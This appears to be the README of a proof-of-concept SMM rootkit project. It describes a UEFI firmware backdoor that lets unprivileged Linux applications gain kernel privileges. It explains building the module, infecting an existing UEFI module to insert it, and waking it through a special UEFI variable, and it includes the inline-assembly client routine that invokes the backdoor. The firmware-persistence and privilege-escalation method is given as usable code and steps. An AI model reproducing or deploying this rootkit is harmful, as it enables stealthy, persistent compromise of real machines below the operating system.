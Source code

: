 # Simple SMM Backdoor

This is a simple proof of concept rootkit working as a SMM module. The backdoor exposes to ring 3 applications a way to elevate privileges. Currently it supports only Linux kernel and works with the recent versions ~5.10. 

## Compiling 

The project should be compiled inside UDK 2018 and the resulting SmmBackdoor.efi file can be directly inserted inside UEFI image. The insertion process requires infecting an already existing module appending it to the last section.

## Calling rootkit

To trigger the rootkit the application is required to read a special UEFI variable created by the backdoor as a way to wake it up from sleep. Then the registers used by backdoor to read arguments should be set and the application should busy loop until RAX register value changes. The backdoor reads the arguments when the next SMI is triggered and sets RAX to 1 when it finishes.

The calling routine:
```c++
void BackdoorApi::smm_call(BackdoorApi::Params& params) const {

    if (needs_wakeup)
        do_wakeup();

    asm volatile (
        "                        \n\
            mov %6, %%rsi        \n\
            mov %7, %%rdi        \n\
            mov %8, %%rcx        \n\
            mov %9, %%rdx        \n\
            mov %10, %%r8        \n\
            mov %11, %%r9        \n\
                                 \n\
            xor %%rax, %%rax     \n\
        backdoor_loop_%=:        \n\
            test %%rax, %%rax    \n\
            jz backdoor_loop_%=  \n\
                                 \n\
            mov %%r9 , %5        \n\
            mov %%r8 , %4        \n\
            mov %%rdx, %3        \n\
            mov %%rcx, %2        \n\
            mov %%rdi, %1        \n\
            mov %%rsi, %0        \n\
        "
        :   "=g"(params.r[0]), "=g"(params.r[1]), "=g"(params.r[2]), \
            "=g"(params.r[3]), "=g"(params.r[4]), "=g"(params.r[5])
        :   "g"(params.r[0]), "g"(params.r[1]), "g"(params.r[2]),    \
            "g"(params.r[3]), "g"(params.r[4]), "g"(params.r[5])
        :    "rsi", "rdi","rcx", "rdx", "r8", "r9", "rax"
    );
}
```

